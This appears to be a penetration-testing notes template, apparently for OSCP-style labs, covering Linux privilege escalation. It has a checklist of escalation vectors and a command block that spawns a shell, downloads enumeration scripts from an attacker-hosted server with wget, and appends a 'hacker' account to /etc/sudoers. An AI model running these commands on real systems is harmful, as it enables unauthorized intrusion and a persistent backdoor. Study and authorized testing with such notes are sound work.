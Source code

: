 

'''''''''''''''''''''''''''''''''' PRIVESC '''''''''''''''''''''''''''''''''



-----------------------------------------------------------------------------



## Privilege escalation

Now we start the whole enumeration-process over gain.

- Kernel exploits
- Programs running as root
- Installed software
- Weak/reused/plaintext passwords
- Inside service
- Suid misconfiguration
- World writable scripts invoked by root
- Unmounted filesystems

Less likely

- Private ssh keys
- Bad path configuration
- Cronjobs


### To-try list

Here you will add all possible leads. What to try.


### Useful commands

```
# Spawning shell
python -c 'import pty; pty.spawn("/bin/sh")'

# Access to more binaries
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

# Set up webserver
cd /root/oscp/useful-tools/privesc/linux/privesc-scripts; python -m SimpleHTTPServer 8080

# Download all files
wget http://192.168.1.101:8080/ -r; mv 192.168.1.101:8080 exploits; cd exploits; rm index.html; chmod 700 LinEnum.sh linprivchecker.py unix-privesc-check

./LinEnum.sh -t -k password -r LinEnum.txt
python linprivchecker.py extended
./unix-privesc-check standard


# Writable directories
/tmp
/var/tmp


# Add user to sudoers
echo "hacker ALL=(ALL:ALL) ALL" >> /etc/sudoers
```
## Dirty COW
```
uname -a or uname -r
Works on Linux Kernel 2.6.22 < 3.9
```